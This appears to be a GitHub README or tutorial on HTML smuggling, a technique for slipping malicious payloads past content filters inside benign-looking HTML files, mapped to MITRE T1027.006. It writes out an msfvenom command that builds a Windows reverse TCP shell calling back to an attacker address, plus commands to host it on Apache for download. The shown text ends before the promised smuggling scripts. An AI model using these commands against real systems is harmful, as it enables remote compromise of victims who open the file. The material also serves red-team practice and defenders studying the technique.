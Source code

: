 # HTML-Smuggling
HTML Smuggling is an evasive payload delivery method that helps an attacker smuggle payload past content filters and firewalls by hiding malicious payloads inside of seemingly benign HTML files. This is possible by using JavaScript blobs and the HTML5 download attribute used with the anchor tag. This article demonstrates the methodology and two such readily available scripts that perform HTML smuggling.

 - MITRE TACTIC: Defense Evasion (TA0005)
 - MITRE Technique ID: Obfuscated Files or Information (T1027) 
 - MITRE SUB ID: HTML Smuggling (T1027.006)
 
Let’s start with the basics. In HTML5, if we want a user to download a file hosted on our server, we can do that by using the anchor tag.

    <a href=”/payload.exe” download=”payload.exe”>Download Here</a>
For that, let’s first create a payload using msfvenom and copy it in our apache webroot directory.

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.89 LPORT=1234 -f exe > payload.exe

    cp payload.exe /var/www/html
Then we copy this into the apache webroot and start the apache server

    cp index.html /var/www/html
    
    cd /var/www/html
    
    service apache2 start

